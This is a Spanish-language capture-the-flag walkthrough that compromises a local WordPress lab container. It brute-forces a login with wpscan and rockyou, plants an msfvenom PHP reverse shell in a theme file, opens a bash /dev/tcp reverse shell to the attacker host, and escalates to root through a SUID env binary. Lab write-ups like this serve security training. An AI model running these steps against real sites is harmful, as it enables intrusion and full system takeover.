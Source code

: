 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh walkingcms.tar
```

![Pasted image 20250201124208](https://github.com/user-attachments/assets/13b7e9b6-be60-4e4c-9bee-994c793344d4)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250201125003](https://github.com/user-attachments/assets/5e7f9e32-7f6f-4b6b-8825-52cbf1198d6c)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250201125337](https://github.com/user-attachments/assets/b1ab13b0-1b87-45d8-8e6f-5aa9b790d13a)

![Pasted image 20250201134452](https://github.com/user-attachments/assets/141b81cf-2d67-4431-aa21-6d8f14cac58c)

Nos metemos en la web:

![Pasted image 20250201134823](https://github.com/user-attachments/assets/a7b107df-8cb9-4d65-a5dd-75d5e857586e)

Buscamos un usuario con **wpscan**:

```Bash
wpscan --url http://172.17.0.2/wordpress --enumerate u
```

![Pasted image 20250201130803](https://github.com/user-attachments/assets/8eb0b69b-78e3-4468-9d2f-b56432f2eb9a)

![Pasted image 20250201131856](https://github.com/user-attachments/assets/69731d18-9f1c-47fe-b1f5-2609388de5e2)

Encontramos el usuario mario. Ahora buscamos la contraseña:

```Bash
wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250201133332](https://github.com/user-attachments/assets/6669df67-7ed3-49fb-a1c9-f59e6c06e67b)

![Pasted image 20250201133423](https://github.com/user-attachments/assets/86856ee5-54a4-4fda-b3dc-56096b952eef)

mario: love.

Nos logeamos:

![Pasted image 20250201134851](https://github.com/user-attachments/assets/86958424-c82f-435b-8a27-7e2c724a5b40)

Nos vamos a Apariencia -> Theme Code Editor:

![Pasted image 20250201144943](https://github.com/user-attachments/assets/042c66ad-72a0-4ba3-9414-91692adc2b86)

![Pasted image 20250201162508](https://github.com/user-attachments/assets/90e10b85-69d9-44b3-9775-96d617fb226f)

Nos saldrá una página index.php que meteremos nuestro código.

![Pasted image 20250201162554](https://github.com/user-attachments/assets/13826dbc-4a4d-4ec4-8079-9a81f1322b39)

Creamos código con **msfvenom** para una shell.php:

```Bash
msfvenom -p php/reverse_php  LHOST=172.17.0.1 LPORT=4444 -f raw > shell.php
```

![Pasted image 20250201144730](https://github.com/user-attachments/assets/71bee510-e43b-4806-b4cc-02441b853044)

Lo copiamos:

```Bash
cat shell.php
```

![Pasted image 20250201144804](https://github.com/user-attachments/assets/a87288be-6ee3-41d0-b930-e17337580c5c)

Lo pegamos y subimos en index.php:

![Pasted image 20250201144914](https://github.com/user-attachments/assets/c904c901-154f-47a7-9142-545100df161b)

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![Pasted image 20250201135929](https://github.com/user-attachments/assets/2eeaff79-eb99-48cb-acec-e6493c1775e0)

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![Pasted image 20250201145606](https://github.com/user-attachments/assets/10d49d9e-9412-4a30-a138-5c31bfa7ebf8)

Ejecutamos la ruta en el navegador:

```Bash
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php
```

![Pasted image 20250201145258](https://github.com/user-attachments/assets/d8c9c264-0107-4930-a881-0a46cf96247c)

Miramos en la shell:

![Pasted image 20250201145543](https://github.com/user-attachments/assets/c6eaa5dc-82ed-4bb2-a511-7289e8dd0fb4)

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![Pasted image 20250201145838](https://github.com/user-attachments/assets/6f581e7f-58aa-4388-bea1-d6a9334e5c79)

Miramos la otra shell:

![Pasted image 20250201145933](https://github.com/user-attachments/assets/ac6a5ad7-4ee1-41cb-a96d-3e1e1cee217c)

Elevamos privilegios:

```Bash
find / -perm -4000 2>/dev/null
```

![Pasted image 20250201155731](https://github.com/user-attachments/assets/1d6ac733-9dc5-49cb-b828-3119a2b3cb09)

```Bash
/usr/bin/env /bin/bash -p
```

![Pasted image 20250201150345](https://github.com/user-attachments/assets/7b6e0fbc-f7c6-48a0-b79f-4c72dfa9a90f)

```Bash
whoami
```

![Pasted image 20250201154317](https://github.com/user-attachments/assets/b70fa614-e337-4ed2-8f33-5ed367fe9ea7)

